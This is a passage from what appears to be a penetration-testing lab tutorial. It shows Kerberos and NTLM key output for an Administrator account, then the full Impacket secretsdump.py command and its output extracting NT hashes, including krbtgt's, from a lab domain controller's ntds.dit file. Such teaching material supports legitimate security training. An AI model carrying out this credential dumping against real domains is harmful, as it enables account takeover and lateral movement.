 ```powershell-session
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

### Extracting Hashes Using SecretsDump

We can also use `SecretsDump` offline to extract hashes from the `ntds.dit` file obtained earlier. If cracked, we can also present the client with password cracking statistics to provide them with detailed insight into overall password strength and usage within their domain and provide recommendations for improving their password policy (increasing minimum length, created a dictionary of disallowed words, etc.).
```shell-session
Wildland4958@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```